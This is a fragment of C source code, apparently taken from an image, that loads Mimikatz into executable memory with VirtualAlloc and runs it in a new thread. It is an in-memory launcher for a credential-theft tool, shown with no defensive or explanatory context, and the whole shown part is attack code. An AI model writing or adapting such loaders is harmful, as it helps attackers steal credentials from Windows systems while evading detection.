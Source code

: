 ```
    LPVOID lpMem = VirtualAlloc(NULL, dwFileSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    // Copy Mimikatz to allocated memory
    memcpy(lpMem, pbFileData, dwFileSize);

    // Execute Mimikatz
    DWORD dwExitCode;
    DWORD dwThreadId;
    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)lpMem, NULL, 0, &dwThreadId);
    WaitForSingleObject(hThread, INFINITE);
    GetExitCodeThread(hThread, &dwExitCode);

    // Free allocated memory
    VirtualFree(lpMem, 0, MEM_RELEASE);

    return 0;
}

```


